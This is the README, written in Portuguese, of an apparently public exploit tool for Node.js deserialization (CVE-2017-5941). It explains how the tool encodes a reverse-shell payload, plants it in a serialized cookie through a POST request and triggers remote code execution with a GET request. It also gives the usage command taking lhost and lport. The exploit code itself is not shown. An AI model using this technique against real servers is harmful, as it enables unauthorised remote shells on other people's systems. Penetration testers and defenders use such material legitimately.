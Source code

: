 # NODEJSHELL - Exploit de reverseshell para desserialização em NodeJs (CVE-2017-5941)
O exploit gera de forma automática o payload de reverse shell que é encodado em decimal e depois em base64.
Depois disso esse payload é enviado através de uma requisição http POST que serializa o input do usuário e armazena em um cookie.
Então conseguimos o RCE acessando através de uma requisição GET.

Modo de uso:

```python3 nodejshell.py <lhost> <lport>```


**lhost**: seu endereço de IP local
**lport**: a porta em que você quer conectar a sua reverse shell

Depois disso você precisa só suprir algumas informações simples:

- Nome do parâmetro que irá enviar a payload pelo *POST*. (Somente necessário se o cookie não estiver já setado).
- Nome do cookie que irá ativar a payload pelo *GET*.

Feito isso, só ativar o seu **listener** preferido e esperar receber a conexão.

![alt text](njs1.png)
![alt text](njs2.png)
